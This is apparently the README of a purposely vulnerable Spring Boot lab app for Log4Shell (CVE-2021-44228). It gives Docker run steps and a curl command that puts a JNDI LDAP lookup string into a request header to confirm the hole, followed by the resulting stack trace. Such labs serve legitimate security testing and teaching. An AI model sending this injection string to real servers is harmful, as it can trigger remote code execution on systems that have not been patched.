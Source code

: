 # Log4Shell sample vulnerable application (CVE-2021-44228)

This repository contains a Spring Boot web application vulnerable to CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).

It uses Log4j 2.14.1 (through `spring-boot-starter-log4j2` 2.6.1) and the JDK 1.8.0_191.

![](./screenshot.png)

## Running the application

Run it:

```
docker run -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

Build it yourself (you don't need any Java-related tooling):

```
docker build . -t vulnerable-app
docker run -p 8080:8080 vulnerable-app
```

## Exploitation

You can confirm the application is vulnerable by running:

```
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://127.0.0.1/a}'
```

You will see the following stack trace in the application logs:

```
2021-12-10 12:43:13,416 http-nio-8080-exec-1 WARN Error looking up JNDI resource [ldap://127.0.0.1/a]. javax.naming.CommunicationException: 127.0.0.1:389 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
	at com.sun.jndi.ldap.Connection.<init>(Connection.java:238)
	at com.sun.jndi.ldap.LdapClient.<init>(LdapClient.java:137)
	at com.sun.jndi.ldap.LdapClient.getInstance(LdapClient.java:1615)
	at com.sun.jndi.ldap.LdapCtx.connect(LdapCtx.java:2749)
	at com.sun.jndi.ldap.LdapCtx.<init>(LdapCtx.java:319)
	at com.sun.jndi.url.ldap.ldapURLContextFactory.getUsingURLIgnoreRootDN(ldapURLContextFactory.java:60)
	at com.sun.jndi.url.ldap.ldapURLContext.getRootURLContext(ldapURLContext.java:61)
	at com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:202)
	at com.sun.jndi.url.ldap.ldapURLContext.lookup(ldapURLContext.java:94)
	at javax.naming.InitialContext.lookup(InitialContext.java:417)
	at org.apache.logging.log4j.core.net.JndiManager.lookup(JndiManager.java:172)
```

## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/